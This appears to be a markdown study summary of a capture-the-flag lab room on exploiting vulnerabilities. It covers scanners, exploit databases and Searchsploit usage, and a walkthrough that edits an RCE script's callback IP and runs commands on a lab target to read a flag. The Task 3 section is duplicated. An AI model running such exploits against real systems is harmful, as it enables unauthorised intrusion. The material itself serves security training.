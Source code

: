 # 🔧 Exploit Vulnerabilities - Summary

This room introduces methods for identifying and exploiting vulnerabilities using both automated and manual techniques. You'll learn about public exploit databases, hands-on tactics, and how to apply those insights to gain remote access and extract sensitive data.

---

## ✅ Task 1 - Introduction

* Learn how vulnerabilities are discovered and exploited
* Discover essential tools and databases
* Apply knowledge in a practical hands-on challenge

---

## 🔢 Task 2 - Automated vs. Manual Vulnerability Research

![Nessus Vulnerability Scanner](https://github.com/user-attachments/assets/0a0c28b5-796b-4fcd-bf66-6197bce7bb0f)

### 🌐 Automated Scanning

Tools like **Nessus** automate vulnerability discovery across services.

| Advantage                        | Disadvantage                         |
| -------------------------------- | ------------------------------------ |
| Fast, scalable, repeatable scans | May encourage overreliance           |
| Results can be shared easily     | Very noisy, can trigger alerts       |
| Open-source tools exist          | Limited by license/features          |
| Broad vulnerability coverage     | Misses complex logic vulnerabilities |

> Tools like **Metasploit** also include built-in vulnerability scanners.

### ✍️ Manual Testing

Used for:

* Application-specific flaws
* Subtle issues missed by automated scanners

Common vulnerabilities:

| Vulnerability              | Description                                        |
| -------------------------- | -------------------------------------------------- |
| Security Misconfigurations | Exposed internal data due to poor settings         |
| Broken Access Control      | Accessing unauthorized features                    |
| Insecure Deserialization   | Executing unintended code through crafted data     |
| Injection (e.g. SQLi)      | Unsafe input directly interpreted by backend logic |

Learn more: [OWASP Top 10](https://owasp.org/www-project-top-ten/)

---

## 📃 Task 3 - Finding Manual Exploits

![Rapid7 Exploit Search](https://github.com/user-attachments/assets/0129073f-bdf7-4e5f-8362-fd60575665e3)

### 📊 Rapid7

* Vulnerability & exploit database
* Includes instructions for Metasploit modules

![Metasploit Module Example](https://github.com/user-attachments/assets/c1800b8d-d4de-436f-a24a-d0414a57207f)

### 📄 GitHub

* Contains up-to-date PoCs from independent researchers
* Search with tags like `PoC`, `CVE`, or `vulnerability`
* No quality control: use with caution

![GitHub CVE Repositories](https://github.com/user-attachments/assets/88ced1f7-e749-4554-a708-8ac5ebc326b2)

### 🔍 Searchsploit

* Offline tool included in Kali/AttackBox
* Mirrors Exploit-DB locally
* Syntax:

```bash
searchsploit wordpress
```

Example output:

```
WordPress Theme Toolbox - SQL Injection | php/webapps/38077.txt
WordPress Theme Uncode - Arbitrary File | php/webapps/39895.php
```

### 📊 Rapid7

* Vulnerability & exploit database
* Includes instructions for Metasploit modules

### 📄 GitHub

* Contains up-to-date PoCs from independent researchers
* Search with tags like `PoC`, `CVE`, or `vulnerability`
* No quality control: use with caution

### 🔍 Searchsploit

* Offline tool included in Kali/AttackBox
* Mirrors Exploit-DB locally
* Syntax:

```bash
searchsploit wordpress
```

Example output:

```
WordPress Theme Toolbox - SQL Injection | php/webapps/38077.txt
WordPress Theme Uncode - Arbitrary File | php/webapps/39895.php
```

---

## 🛠️ Task 4 - Example of Manual Exploitation

![Apache Tomcat Logo](https://github.com/user-attachments/assets/46f3db95-0beb-41bf-bfe2-6780f85308e1)

Goal: Use a **remote code execution (RCE)** exploit to gain access.

### 🔄 Modify Exploit for Environment

```bash
nano exploit.py
# Before:
mymachine="192.168.1.10"
# After:
mymachine="10.13.37.10"
```

### ⚖️ Understand Usage

```bash
exploit.py --help
# Arguments:
-u : Target URL
-c : Command to execute
```

### ⚡ Exploit Steps

```bash
# Step 1 - Confirm code execution
exploit.py -u http://10.10.10.10 -c "whoami"
> www-data

# Step 2 - Extract flag
exploit.py -u http://10.10.10.10 -c "cat flag.txt"
> THM{EXPLOIT_COMPLETE}
```

---

## 🎯 Task 5 - Practical: Manual Exploitation

1. Deploy the target machine
2. Wait 5 minutes for setup
3. Visit: `http://MACHINE_IP`
4. Perform manual reconnaissance and exploit the application

---

Good luck, and happy hacking! 🤖
